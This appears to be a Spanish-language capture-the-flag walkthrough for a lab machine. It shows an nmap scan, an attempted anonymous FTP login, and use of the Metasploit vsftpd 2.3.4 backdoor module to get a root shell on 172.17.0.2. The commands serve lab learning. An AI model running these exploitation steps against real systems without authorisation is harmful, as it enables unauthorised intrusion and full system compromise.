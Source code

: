 
# Maquina FirstHacking | Explotación de VSFTPD 2.3.4 con Metasploit

## 🔎 Escaneo inicial con Nmap  
Iniciamos con un escaneo para detectar puertos abiertos y versiones de servicios:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -sV -vvv -n -Pn 172.17.0.2
```

### Explicación:
- **`-p-`** → Escanea todos los puertos (1-65535).  
- **`--open`** → Muestra solo los puertos abiertos.  
- **`-sS`** → Escaneo stealth SYN (rápido y sigiloso).  
- **`--min-rate 5000`** → Acelera el escaneo enviando 5000 paquetes/seg.  
- **`-sV`** → Detecta versiones de servicios.  
- **`-vvv`** → Muestra más detalles.  
- **`-n`** → No resuelve DNS (más rápido).  
- **`-Pn`** → Asume que el host está activo.  

###  Resultado:
Solo encontramos **el puerto 21 (FTP) abierto**.  

---

##  Intento de acceso con anonymous FTP  
Primero, probamos si podemos conectarnos con usuario anónimo:  

```bash
ftp 172.17.0.2
```

Si el servidor permite **anonymous login**, podríamos acceder sin credenciales. Esto suele permitir:
- Descargar archivos públicos.
- En algunos casos, **subir archivos maliciosos** si el servidor está mal configurado.  

 **En este caso, el acceso anónimo no funcionó.** Seguimos buscando otra forma de entrar.  

---

##  Buscamos exploits para vsftpd 2.3.4  
Ejecutamos en la terminal:  

```bash
searchsploit vsftpd 2.3.4
```


El resultado nos da dos opciones:
1. Un exploit en **Python**.  
2. Un exploit en **Metasploit** (el que usaremos).  

---

##  Explotación con Metasploit  
Abrimos Metasploit en modo silencioso:

```bash
msfconsole -q
```

 **Diferencias:**  
- `msfconsole` → Abre Metasploit con la pantalla de inicio.  
- `msfconsole -q` → Lo abre en modo silencioso.  

Buscamos el exploit:

```bash
search vsftpd 2.3.4
```

El resultado nos muestra el exploit disponible:  
```bash
0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03  excellent  No  VSFTPD v2.3.4 Backdoor Command Execution
```

Seleccionamos el exploit con:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Despues metemos un:

```bash
show options
```

---

##  Lanzando el exploit  
Configuramos el objetivo:

```bash
set RHOSTS 172.17.0.2
```


`use` = Escoge el exploit o módulo.<br/>
`set` = Configura parámetros necesarios.<br/>



Ejecutamos el ataque:

```bash
run
```
o  
```bash
exploit
```

Si todo sale bien, tendremos una **shell remota**.  

---

##  Comprobando acceso root  
Ejecutamos:

```bash
whoami
```

Listo, somos `root` 

---

## Conclusión  
Hemos explotado **vsftpd 2.3.4** y conseguido acceso **root** en la máquina.   

⚠ **Este material es solo para aprendizaje y CTFs legales. No lo uses en sistemas sin autorización.**
---

**En mi pagina web (Blog) subo las maquinas más a detalle, normalmento lo hago primero alla por quien guste puede checarlo de aquel lado tambien.** 

https://elyoxsecurity.com/category/maquinas/
